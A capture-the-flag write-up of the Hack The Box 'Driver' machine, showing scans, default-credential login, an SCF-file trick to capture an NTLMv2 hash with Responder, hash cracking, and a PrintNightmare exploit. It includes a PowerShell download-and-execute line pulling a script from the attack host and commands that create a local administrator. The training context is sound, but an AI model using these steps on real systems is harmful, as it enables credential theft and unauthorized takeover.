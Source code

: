 ```yaml
---
title: HTB-Driver
date: 2022-07-10 11:27:10 +0200
categories: [HACK THE BOX, DRIVER]
tags: [driver]  
---
```


---
categories: [Hack the Box]
tags: [Driver]
---
 
Target machine: **10.129.195.84**  
Attack  machine: **10.10.14.11**

![Desktop View](/assets/img/HTB/Driver/Driver.png){: width="1398" height="964" }
_Driver form Hack the Box_

Before I start with hacking I always edit the **/etc/hosts** file, mostly out of ease:
```
<TARGET-IP> driver.htb
```
Now lets start with an nmap scan to see what juicy ports are open. 

## NMAP 
```
┌──(kali㉿kali)-[~/Documents/HacktheBox/Driver]
└─$ sudo nmap -p80,135,445,5985 -sV -sC -T4 -Pn -oA 10.129.195.84 10.129.195.84
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-11-19 08:51 EST
Nmap scan report for driver.htb (10.129.195.84)
Host is up (0.023s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc        Microsoft Windows RPC
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2021-11-19T20:51:26
|_  start_date: 2021-11-19T20:28:32
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 47.61 seconds


```
_Nmap scanning for all TCP ports_

If we look at the **nmap** scan we see that we have a Windows server with a website on port 80, Microsoft Windows RPC on port 135 and 
an **SMB** port on 445.


Port 80 is always a good start to begin with, so let's browse to http://driver.htb.  
The site uses basic authetication and I was able to authenticate with the famous duo **admin:admin**.
	
![Desktop View](/assets/img/HTB/Driver/Website.png){: width="1286" height="770" }
_MFP Firmware Update Center_

First glance at the website shows us that this is printer management software that you can use to update the firmware.

![Desktop View](/assets/img/HTB/Driver/File_Upload.png){: width="1096" height="368" }
_File Upload_

I was able to upload my own files but none of my reverse shell attempts worked. Eventually
with some google searching I stumbled on the SMB-share file attack. You can find the article [here](https://pentestlab.blog/2017/12/13/smb-share-scf-file-attacks/).

So lets try it out.

## SMB-share file attack 

As described in the article: let's open a text editor and create the following **.scf** file: 
```
[Shell]
Command=2
IconFile=\\<ATTACK-MACHINE-IP>\share\test.ico
[Taskbar]
Command=ToggleDesktop
```
Before we upload the file make sure you have [**Responder**](https://www.kali.org/tools/responder/) listening.
```
sudo responder -wrf --lm -v -I tun0
```
Now let's upload the malicious **.scf** file we created. After the upload we will see
that **Responder** captured an **NTLM2** hash. If you are not sure with what hash you're dealing with
you can run tools like [**Hash-Identifier**](https://www.kali.org/tools/hash-identifier/)  or use the [**Hashcat-wiki**](https://hashcat.net/wiki/doku.php?id=example_hashes)
or let [**John the Ripper**](https://www.kali.org/tools/john/) make a guess for you.

```
[SMB] NTLMv2 Client   : 10.129.186.144
[SMB] NTLMv2 Username : DRIVER\tony
[SMB] NTLMv2 Hash     : tony::DRIVER:519b5e6d8014443e:84EECB86F592AD33C14BCFD75FADF8B0:010100000000000014418EE67DEBD701176F0EFA5976B78000000000020000000000000000000000

```
All you have to do now is crack the hash with your favourite tool, I used [**Hashcat**](https://www.kali.org/tools/hashcat/)
```
hashcat -m 5600 hash /usr/share/wordlists/rockyou.txt
```
**Hashcat** successfully cracked the hash and we now have the password: **liltony**
```
TONY::DRIVER:368ad063be1dd4f9:d2065c3cf444030f336f110dece37a04:01010000000000001fb200e77debd7014f2010d0d5eab9f300000000020000000000000000000000:liltony
```
Let's try to login with [**Evil-Winrm**](https://github.com/Hackplayers/evil-winrm):

```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.186.144 -u 'tony' -p 'liltony'         

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
*Evil-WinRM* PS C:\Users\tony\Documents> 

```
Success! We've got the first user-flag:
```
*Evil-WinRM* PS C:\Users\tony\Desktop> type user.txt
4633df9a68[....]

```

## Privileged Escalation
After some enumeration I found that the **spoolsv** service is
running which is the print spooler service.  

![Desktop View](/assets/img/HTB/Driver/spoolv.png){: width="647" height="487" }

This machine could be vulnerable for the **print nightmare** exploit if the Print Spooler service improperly performs privileged file operations.
If this is the case, the machine is vulnerable for remote code execution.

So let's exploit this bad boy.


## Print Nightmare 
Source: https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html


Start a webserver with the **CVE-2021-1675.ps1** script 
```
python3 -m http.server
```
On the target machine, run the following to get the **CVE-2021-1675.ps1** script.
```
IEX(New-Object Net.Webclient).downloadstring('http://<ATTACK-MACHINE-IP>:8000/CVE-2021-1675.ps1')
```
You can also upload the file via the upload function of **Evil-WinRM**. 

ANYHOW... now all we have to do is run the script on the target machine:
```
*Evil-WinRM* PS C:\Users\tony\Documents> Invoke-Nightmare -NewUser "Testy" -NewPassword "Test123"

[+] created payload at C:\Users\tony\AppData\Local\Temp\nightmare.dll
[+] using pDriverPath = "C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_f66d9eed7e835e97\Amd64\mxdwdrv.dll"
[+] added user Testy as local administrator
[+] deleting payload from C:\Users\tony\AppData\Local\Temp\nightmare.dll

```
This should add a new user as local administrator. 

Let's see if the **Testy** user is added 
and got the right privileges:
```
*Evil-WinRM* PS C:\Users\tony\Documents> net user Testy
User name                    Testy
Full Name                    Testy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            12/7/2021 10:51:38 AM
Password expires             Never
Password changeable          12/7/2021 10:51:38 AM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators
Global Group memberships     *None
The command completed successfully.

```

Login with the new created account via **Evil-Winrm**
```
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i 10.129.186.159 -u 'Testy' -p 'Test123'

Evil-WinRM shell v2.4

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Testy\Documents> whoami
driver\testy

```

And we are there guys, get that beverage open and pop that bag of chips, you've earned it.

![Desktop View](/assets/img/HTB/Driver/root.png){: width="510" height="172" }  
_The root.txt file_

Hope you had just as much fun as I had, see you on the next hacking adventure.


